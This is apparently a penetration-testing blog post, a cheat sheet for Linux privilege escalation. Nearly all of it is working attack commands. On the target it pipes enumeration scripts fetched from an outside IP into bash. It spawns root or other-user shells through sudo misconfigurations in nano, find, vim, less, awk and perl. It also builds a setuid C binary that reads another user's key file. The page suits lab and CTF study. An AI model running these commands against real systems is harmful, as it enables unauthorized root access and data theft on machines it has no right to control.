 ```yaml
---
author: Marcos Azevedo
date: '2020-06-16T17:38:15-03:00'
linktitle: 'Cheat Sheet :: Privilege Escalation'
title: 'Cheat Sheet :: Privilege Escalation'
categories:
  - cheatsheet
  - exploitation-techniques
  - priv-escalation
tags:
  - cheatsheet
  - priv-escalation
  - exploitation-techniques
weight: 10
date updated: '2021-03-25T17:36:52-03:00'

---
```



# Cheat Sheet :: Privilege Escalation

## Using scripts to enum the machine
- [https://github.com/rebootuser/LinEnum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- On the target's machine we can do:
```bash
$ curl 10.10.14.2/linpeas.sh | bash
$ curl 10.10.14.2/LinEnum.sh | bash
```

-----
## Nano privilege escalation
- This can be used to gain root access on the server.
```bash
sudo -u root /bin/nano /opt/priv
```

- Nano allows inserting external files into the current one using the shortcut.
```bash
Ctrl+R
```

/pics/nano-001.png

- The command reveals that we can execute system commands using **^X (Press Ctrl + X)** and enter the following command to spawn a shell.
```bash
Press Ctrl + X
reset; sh 1>&0 2>&0
```

/pics/nano-002.png

- Now we have a root shell.
/pics/nano-003.png

-----
## Sudo privilege escalation
### Listing allowed ``sudo`` commands
```bash
$ sudo -l
```

### Impersonating with ``sudo``
```bash
$ sudo -u victim command
```

### Escalating privileges with ``find`` command
```bash
$ sudo -u victim /usr/bin/find -exec /bin/bash \;
```

### Escalating privileges with ``vim`` editor
```bash
$ sudo -u victim /usr/bin/vim

# Inside the vim we can call a shell
:!/bin/bash
```

### Escalating privileges with  ``less`` command
- Open a file using less
```
$ sudo -u victim less /home/victim/key.txt
```

- Inside the less we can call a shell
```bash
!/bin/bash
```

### Escalating privileges with ``awk`` command
```bash
# Reading files with awk
$ sudo -u victim /usr/bin/awk '{print $1}' /home/victim/key.txt

# Executing command within awk
$ sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

### Escalating privileges with ``chmod``

- Create the exploit to call a command
```bash
#include<stdio.h>

int main(void)
{
    system("cat /home/victim/key.txt");
}
```

- Compiling the exploit
```bash
$ cd /tmp
$ gcc exploit.c -o exploit
```

- Setting the __setuid__ and __setgid__ flags
```bash
$ sudo -u victim cp exploit exploit2
$ sudo -u victim chmod +xs exploit2
$ ./exploit2
```

### Escalating privileges with ``perl``
```bash
$ sudo -u victim perl -e 'exec "/bin/bash";'
```

